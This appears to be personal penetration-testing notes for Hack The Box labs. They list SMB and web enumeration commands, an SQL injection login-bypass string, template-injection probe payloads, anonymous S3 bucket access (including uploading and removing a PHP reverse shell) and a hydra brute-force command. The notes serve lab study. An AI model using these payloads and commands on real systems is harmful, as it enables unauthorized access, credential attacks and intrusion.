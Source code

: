 ```yaml
---
# the default layout is 'page'
icon: fas fa-info-circle
order: 4
---
```


# enumeartion

## smb

```
smbclient -L 10.129.189.194
```

## web

### gobuster

```
# enumeration directories
gobuster dir -u http://DOMAIN -w /usr/share/wordlists/dirb/common.txt

# enumerate vhosts
gobuster vhost --append-domain -u http://DOMAIN -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

### wappalyzer

- used to identify website technologies
- install as browser extension via chrome web store

### sqli

login bypass
```
' or 1=1 #
```

### ssti

> great writeup on [fingerprinting languages and template engines](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756) 

1. fingerprint language used on server (i.e. python, php, js, nodejs, etc) 
2. find input field to test
3. using identified language as a guide, narrow down the payloads to try

#### payloads

characters to test
```
${{<%[%'"}}%\.
```
common payloads to test
```
${7*7}
${{7*7}}
#{7*7}
#{ 7 * 7 }
*{7*7}
@{7*7}
~{7*7}
[[7*7]]
[[${7*7}]]
[(7*7)]
{7'*7'}
<%= 7 * 7 %>
<%7*7%>
```

[hacktricks](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html) has a good bit of info on other payloads and their corresponding template engines too

## cloud

### aws

#### setup

use python to create virtual environment and install `awscli`
```
$ python3 -m venv htb_three

$ source htb_three/bin/activate

$ pip3 install awscli                 
Collecting awscli
```

#### enumeration

```
# anonymous login
aws s3 ls --endpoint-url http://s3.thetoppers.htb                                   
aws s3 ls s3://s3.thetoppers.htb --no-sign-request

# configure a profile (have to enter fake or real values - i.e. no empties)
aws configure --profile htb_three

# list bucket
aws s3 ls --profile htb_three --endpoint-url http://s3.thetoppers.htb

# list contents recursively
aws s3 ls --profile htb_three --endpoint-url http://s3.thetoppers.htb --recursive s3://thetoppers.htb

# copy contents
aws s3 cp --profile htb_three --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb/shell.php .

# delete contents
aws s3 rm --profile htb_three --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb/php-reverse-shell.php
```

# multipurpose tools

## hydra

- web form with username and password list

```
hydra -l [username] -P [path_to_passwd_list] -t 10 http-post-form [domain] "/URI:username=^USER^&password=^PASSWORD^:Cookie="
```